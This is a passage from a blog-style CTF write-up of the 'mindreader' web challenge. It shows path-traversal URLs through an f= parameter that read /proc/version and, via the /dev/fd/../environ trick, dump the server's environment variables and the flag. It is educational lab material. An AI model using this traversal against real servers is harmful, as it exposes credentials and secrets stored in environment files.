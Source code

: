 {% endhighlight %}

<p>Nope. When trying <b>proc/version</b>, we get forbidden, so that's something new. </p>

{% highlight html %}
https://mindreader.web.ctfcompetition.com/?f=..%2F..%2F..%2F..%2Fproc%2Fversion

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>403 Forbidden</title>
<h1>Forbidden</h1>
<p>You don't have the permission to access the requested resource. It is either read-protected or not readable by the server.</p>
{% endhighlight %}

<p>Every file in <b>/proc</b> seems to be protected. But after good (and educational!) few hours of looking, I've managed to find something in Linux man pages. Let's take a look at <b>/proc/[pid]/environ</b>. </p>

{% highlight text %}
/proc/[pid]/environ
       This file contains the initial environment that was set when
       the currently executing program was started via execve(2).
       The entries are separated by null bytes ('\0'), and there may
       be a null byte at the end.  Thus, to print out the environment
       of process 1, you would do:

           $ strings /proc/1/environ

       If, after an execve(2), the process modifies its environment
       (e.g., by calling functions such as putenv(3) or modifying the
       environ(7) variable directly), this file will not reflect
       those changes.

       Furthermore, a process may change the memory location that
       this file refers via prctl(2) operations such as
       PR_SET_MM_ENV_START.

       Permission to access this file is governed by a ptrace access
       mode PTRACE_MODE_READ_FSCREDS check; see ptrace(2).
{% endhighlight %}

<p>As enviroment can be very useful, I decided that that's the path I wanna go in this challenge. But as <b>/proc</b> is forbidden, we have to find a different way. Here comes Stackoverflow to the rescue, let's look at this <a href="https://unix.stackexchange.com/questions/18255/how-does-dev-fd-relate-to-proc-self-fd"><b>thread</b></a>!</p>

<p>But trying <b>/dev/fd/environ</b> is once again - not found. I have to be missing something. Let's rethink that - we use a symlink to get into <b>/proc/self/fd</b>, and now we have to go back one directory and then jump to envrion. Got it! </p>

{% highlight html %}
https://mindreader.web.ctfcompetition.com/?f=%2Fdev%2Ffd%2F..%2Fenviron

GAE_MEMORY_MB=614HOSTNAME=a2c5f45b98c8GAE_INSTANCE=aef-mindreader--sss6w3uqjfrcntmn-20170618t144344-8r7fPORT=8080HOME=/rootPYTHONUNBUFFERED=1GAE_SERVICE=mindreader-sss6w3uqjfrcntmnPATH=/env/bin:/opt/python3.5/bin:/opt/python3.6/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binGAE_DEPLOYMENT_ID=402060873983974243LANG=C.UTF-8DEBIAN_FRONTEND=noninteractiveGCLOUD_PROJECT=ctf-web-kuqo48dGOOGLE_CLOUD_PROJECT=ctf-web-kuqo48dCHALLENGE_NAME=mindreaderVIRTUAL_ENV=/envPWD=/home/vmagent/appGAE_VERSION=20170618t144344FLAG=CTF{ee02d9243ed6dfcf83b8d520af8502e1}
{% endhighlight %}

<p>And along with the environ, there's a hidden flag! </p>

<p>~ Stay safe! </p>
